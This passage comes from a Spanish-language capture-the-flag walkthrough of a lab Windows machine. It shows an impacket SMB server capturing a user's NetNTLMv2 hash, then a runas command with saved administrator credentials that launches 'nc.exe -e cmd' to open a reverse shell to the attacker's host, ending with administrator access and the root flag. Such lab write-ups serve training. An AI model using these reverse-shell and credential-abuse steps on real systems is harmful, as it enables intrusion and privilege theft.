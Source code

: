 ```bash
❯ impacket-smbserver smbFolder $(pwd)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.98,49159)
[*] AUTHENTICATE_MESSAGE (ACCESS\security,ACCESS)
[*] User ACCESS\security authenticated successfully
[*] security::ACCESS:aaaaaaaaaaaaaaaa:c332f6c0237137da4e4644e00a491165:010100000000000080b69c163700d801733f4cc843d845f5000000000100100067007a00680072007a00450050006a000300100067007a00680072007a00450050006a000200100069007a0073004b0078005100690050000400100069007a0073004b0078005100690050000700080080b69c163700d801060004000200000008003000300000000000000000000000002000002b50b2f3f6743d8f625c8c37ed5ede17540078931ebbe5138e18f68df3ba13f30a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0032003700000000000000000000000000
[-] Unknown level for query path info! 0x109
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:SMBFOLDER)
[*] Closing down connection (10.10.10.98,49159)
[*] Remaining connections []
```

Nos ponemos en escucha por el puerto 443 y nos entablamos una reverse shell.

```bash
PS C:\Users\security\Desktop\test> runas.exe /user:ACCESS\Administrator /savecred "nc.exe -e cmd 10.10.14.27 443"
PS C:\Users\security\Desktop\test>
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.98] 49160
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
access\administrator

C:\Windows\system32>
```

Ya somos el usuario **Administrator** y podemos visualizar la flag (root.txt).

